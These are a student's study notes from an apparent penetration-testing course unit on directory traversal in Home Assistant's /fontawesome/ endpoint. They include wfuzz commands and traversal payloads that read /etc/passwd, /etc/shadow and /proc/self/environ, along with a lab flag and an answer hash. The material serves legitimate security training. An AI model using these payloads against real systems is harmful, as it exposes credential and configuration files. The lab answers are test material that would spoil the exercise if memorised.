This Learning Unit covers the following Learning Objectives:

1. Understand how our case study of Home Assistant would initially be assessed.
2. Understand how to exploit this real-world case study.
3. Understand how to find and discover the documentation for a web application.

We'll be targeting _Home Assistant_[1](https://portal.offsec.com/courses/web-200-28380/learning/directory-traversal-attacks-30962/case-study-home-assistant-31293/case-study-home-assistant-31468#fn-local_id_34-1) for this case study. Home Assistant is installed on a lab machine called _homeassistant_ in our Lab Control Panel, and we can access it on port 8123. In early 2021, this application was found vulnerable to a directory traversal attack because multiple integrations into Home Assistant enabled exfiltration of configuration files, potentially leading to account compromise. In the following sections, we'll discover and exploit this finding ourselves.

(Home Assistant, 2021), [https://www.home-assistant.io/blog/2021/01/22/security-disclosure/](https://www.home-assistant.io/blog/2021/01/22/security-disclosure/) [↩︎](https://portal.offsec.com/courses/web-200-28380/learning/directory-traversal-attacks-30962/case-study-home-assistant-31293/case-study-home-assistant-31468#fnref-local_id_34-1)

---------------------------

#### 9.6.1. Initial Application Assessment
We begin our assessment knowing that Burp is automatically forwarding requests from the `http://homeassistan`t endpoint to the `HTTP History` tab. The figure below displays the login landing page for Home Assistant.

![[Pasted image 20240923162401.png]]
We observe that Home Assistant presents a fairly standard login form. Let's return to our forwarded requests in Burp Suite and inspect them manually by clicking `Proxy > HTTP History`

Scouring through the history of our initial landing on the `http://homeassistant:8123` endpoint home page, we'll notice a suggestive URI, `/fontawesome/`. This directory seems suggestive for a few reasons. First, sorting by URL in Ascending order, we take note of the predominate calls being made from FontAwesome to the frontend of the web application. These calls seem to be targeted at the `/static/` and `/frontend_latest endpoints`.
- I didnt see `static`

Because we have enumerated the `/fontawesome/` URI with Burp Suite's HTTP History, we can perform fuzzing with a common wordlist present on Kali Linux to check for different 404 response sizes. We've confirmed that `/fontawesome/` exists from our Burp's HTTP History, however, if we encounter different 404 response sizes during our fuzzing attempts, we may be on to something interesting. Although it might seem like a lot of effort, let's stick with it.

We will fuzz the web-root and only analyze the 404 response size of `http://homeassistant:8123/FUZZ` using a common wordlist in `/usr/share/wordlists/dirb/common.txt`


Let's note that for the purposes of this case study, a 404 response size in the web-root yields 14 characters.

Since we know the /fontawesome/ URI exists, we can also perform fuzzing on http://homeassistant:8123/fontawesome/FUZZ to verify whether any third-party resources are being used with different 404 response-sizes. A difference in 404 response sizes might indicate that another web application is generating a different 404 page than the web server software.

![[Pasted image 20240923164150.png]]
Let's note that for the purposes of this case study, a 404 response size in the web-root yields 14 characters.

Since we know the /fontawesome/ URI exists, we can also perform fuzzing on `http://homeassistant:8123/fontawesome/FUZZ` to verify whether any third-party resources are being used with different 404 response-sizes. A difference in 404 response sizes might indicate that another web application is generating a different 404 page than the web server software.

```bash
kali@kali:~$ wfuzz -c -z file,/usr/share/wordlists/dirb/common.txt http://homeassistant:8123/fontawesome/FUZZ
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://homeassistant:8123/fontawesome/FUZZ
Total requests: 4614

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                     
=====================================================================
000000010:   404        0 L      0 W        0 Ch        ".history"
000000009:   404        0 L      0 W        0 Ch        ".git/HEAD"
```

Analyzing the difference between fuzzing the web-root and the /fontawesome/ URI above, we'll notice a total difference of 14 characters (bytes) between the 404 response sizes. Because we now have evidence of two separate 404 responses, we can safely assume that whatever is _handling_ those response sizes is out of the ordinary and might even be an indication of a third-party resource being utilized.

With our enumeration complete and pointing towards `/fontawesome/` as the vulnerable parameter, we are ready to begin the exploitation phase.

---------------

#### 9.6.2. Exploitation

To confirm directory traversal, let's attempt to manually alter any content after the /fontawesome/ parameter. We'll need to leverage many traversal strings to achieve our goal and reach the /etc/passwd file on the target Operating System.

We can take the original request to /fontawesome/data/fas.js from our HTTP History in Burp Suite, right-click it, and select _Send to Repeater_.

Highlighted in the figure below, we've replaced anything past /fontawesome/ with several traversal strings directed towards the /etc/passwd file.

![[Pasted image 20240923165741.png]]
It quickly becomes clear that our suspicions were correct about weak sanitization and the /fontawesome/ endpoint is vulnerable to directory traversal. Following the case study, we successfully leveraged FontAwesome and Home Assistant's lack of input sanitization to include any file of our choosing on the target operating system.

Now that we can expose the contents of any file on the target, let's scour the machine for configuration files that we might leverage to perform further attacks.

Whenever attempting to exfiltrate data from a web application, it's worth taking time to review its configuration documentation. This helps us understand existing vulnerabilities and develop further attacks. After a bit of searching for `"Home Assistant Configuration Documentation"` on the internet, we find something particularly useful.

According to the documentation,[1](https://portal.offsec.com/courses/web-200-28380/learning/directory-traversal-attacks-30962/case-study-home-assistant-31293/exploitation-31027#fn-local_id_50-1) there is a `configuration.yaml` file we can use to probe the target machine.

![[Pasted image 20240923165859.png]]

Now that we have reason to believe there is a file on the target machine pertaining to the underlying web application configuration, let's attempt to discover this file and extract its contents. Recalling our endpoint `/fontawesome/data/fas.js`, we'll now modify anything past `/data/` to traverse out of the fas.js file's location on the target machine. We will move one directory at a time until we arrive at configuration.yaml. After three such traversals, we reach our intended location and the file is displayed. This becomes evident in the figure below.

So, let's now return to Burp Suite and adjust our payload as such in Repeater.


![[Pasted image 20240923173453.png]]

In the figure above, we have successfully located the configuration.yaml file and can safely assume that we are in a configuration directory.

We can exploit this further by enumerating the entire OS. We'll use `/usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt` in conjunction with the vulnerable endpoint to determine exactly which files are present on the target machine.

Let's consider the output of the command below, which fuzzes the `/fontawesome/` URI.

```bash
kali@kali:~$ wfuzz -c -z file,/usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt --hc 404 http://homeassistant:8123/fontawesome/../../../../../../../../../../../../FUZZ         

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://homeassistant:8123/fontawesome/../../../../../../../../../../../../FUZZ
Total requests: 914

=====================================================================
ID           Response   Lines    Word       Chars       Payload                  
=====================================================================
000000128:   200        2 L      12 W       89 Ch       "/etc/fstab"
000000131:   200        49 L     49 W       725 Ch      "/etc/group"
000000198:   200        7 L      16 W       174 Ch      "/etc/hosts"       
000000199:   200        7 L      16 W       174 Ch      "../../../../../../../../../../../../etc/hosts"
000000230:   200        3 L      11 W       54 Ch       "/etc/issue"
000000242:   200        19 L     103 W      767 Ch      "/etc/netconfig"
000000239:   200        10 L     39 W       283 Ch      "/etc/motd"
000000247:   200        28 L     30 W       1228 Ch     "/../../../../../../../../../../etc/passwd"
000000259:   200        28 L     30 W       1228 Ch     "../../../../../../../../../../../../../../etc/passwd"
000000271:   200        28 L     30 W       1228 Ch     "../../etc/passwd"
000000272:   200        28 L     30 W       1228 Ch     "../etc/passwd"
000000270:   200        28 L     30 W       1228 Ch     "../../../etc/passwd"
000000268:   200        28 L     30 W       1228 Ch     "../../../../../etc/passwd"
000000269:   200        28 L     30 W       1228 Ch     "../../../../etc/passwd"
000000267:   200        28 L     30 W       1228 Ch     "../../../../../../etc/passwd"
000000266:   200        28 L     30 W       1228 Ch     "../../../../../../../etc/passwd"
000000265:   200        28 L     30 W       1228 Ch     "../../../../../../../../etc/passwd"
000000246:   200        28 L     30 W       1228 Ch     "/./././././././././././etc/passwd"
000000276:   200        28 L     30 W       1228 Ch     "etc/passwd"
000000401:   200        28 L     28 W       454 Ch      "/./././././././././././etc/shadow"
000000402:   200        28 L     28 W       454 Ch      "/../../../../../../../../../../etc/shadow"
000000392:   200        2 L      4 W        38 Ch       "/etc/resolv.conf"
000000405:   200        28 L     28 W       454 Ch      "/etc/shadow"
000000406:   200        28 L     28 W       454 Ch      "../../../../../../../../../../../../etc/shadow"
000000491:   200        31 L     287 W      3016 Ch     "/proc/interrupts"
000000493:   200        50 L     146 W      1391 Ch     "/proc/meminfo"
000000495:   200        2 L      15 W       156 Ch      "/proc/net/arp"
000000499:   200        20 L     76 W       573 Ch      "/proc/partitions"
000000490:   200        156 L    1008 W     5586 Ch     "/proc/cpuinfo"
000000492:   200        1 L      5 W        25 Ch       "/proc/loadavg"
000000503:   200        1 L      21 W       144 Ch      "/proc/version"
000000497:   200        3 L      33 W       384 Ch      "/proc/net/route"
000000501:   200        0 L      1 W        557 Ch      "/proc/self/environ"
000000498:   200        15 L     240 W      2250 Ch     "/proc/net/tcp"
000000502:   200        56 L     145 W      1063 Ch     "/proc/self/status"
000000500:   200        0 L      1 W        42 Ch       "/proc/self/cmdline"
000000494:   200        37 L     222 W      3760 Ch     "/proc/mounts"
000000496:   200        6 L      88 W       693 Ch      "/proc/net/dev"  
```

Great! The output confirms we've exposed the target operating system's configuration. This data can be extremely helpful for discovering new vulnerabilities and understanding future exploits.

-----------

##### Labs
`OS{directory_traversalFlagThree}`
![[Pasted image 20240923175138.png]]
![[Pasted image 20240923175120.png]]

------------------


#### 9.6.3 Extra Mile
`84c4889959995ec2500da8936b7130e8dcc69a577da831b1af7beb8ef0595a8709e554cef63892615da72b5ec357c95d3d24f934347cfd35139cb0a458088958`
![[Pasted image 20240923175836.png]]
this was found buy just adding `../../../` to find the location of the file
![[Pasted image 20240923175916.png]]